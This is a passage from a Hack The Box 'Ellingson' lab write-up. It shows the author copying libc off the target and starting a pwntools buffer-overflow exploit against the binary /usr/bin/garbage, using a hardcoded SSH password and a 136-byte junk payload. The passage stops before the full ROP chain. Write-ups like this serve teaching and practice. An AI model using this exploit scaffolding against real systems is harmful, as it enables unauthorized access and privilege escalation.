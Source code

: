 {% highlight shell %}
margo@ellingson:~$ ldd /usr/bin/garbage
	linux-vdso.so.1 (0x00007fffbcdf2000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5d6eb2b000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f5d6ef1c000)
margo@ellingson:~$ exit
logout
Connection to 10.10.10.139 closed.
root@kali:~/Desktop/HTB/Ellingson# scp margo@10.10.10.139:/lib/x86_64-linux-gnu/libc.so.6 .
margo@10.10.10.139's password: 
libc.so.6                         
{% endhighlight %}

<p>At this point I could continue to develop the exploit manually. Since I did that with the other HTB machine I wanted to explore other ways of getting this done. During my research I saw several references to python's <code>pwn lib</code> library and decided I would take the opportunity to learn how to use it. <a href="http://docs.pwntools.com/en/stable/intro.html">pwn lib intro</a> and <a href="http://docs.pwntools.com/en/stable/rop/rop.html">pwn lib ROP</a>  reference documentation was invaluable in understanding how the library worked.<p>

<h3>PWN lib</h3>

<p>Let's get the initial template setup. We have <code>margo</code>'s password so let's connect to the host and call the binary.</p>

{% highlight python %}
from pwn import *

import warnings

#Ignore paramiko ssh encryption warnings - https://github.com/ansible/ansible/issues/52598
warnings.filterwarnings(action='ignore',module='.*paramiko.*')

context(terminal=['tmux','new-window'])
context(os = 'linux', arch = 'amd64')
shell = ssh(host='10.10.10.139', user="margo", password="iamgod$08")
p = shell.run("/bin/bash")
p.sendline("/usr/bin/garbage")

#Checking extra information while developing
context.log_level = 'DEBUG'

#Pull local versions of binary and libc, creating pwnlib objects 
garbage = ELF('garbage')
libc = ELF('libc.so.6')

#Junk characters to fill up buffer
junk = "A" * 136

payload = junk + junk
p.recvuntil('password:')
p.sendline(payload)
p.recvuntil('denied.')
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-ellingson/garbage-pwnlib.PNG' | relative_url }}">
</p>
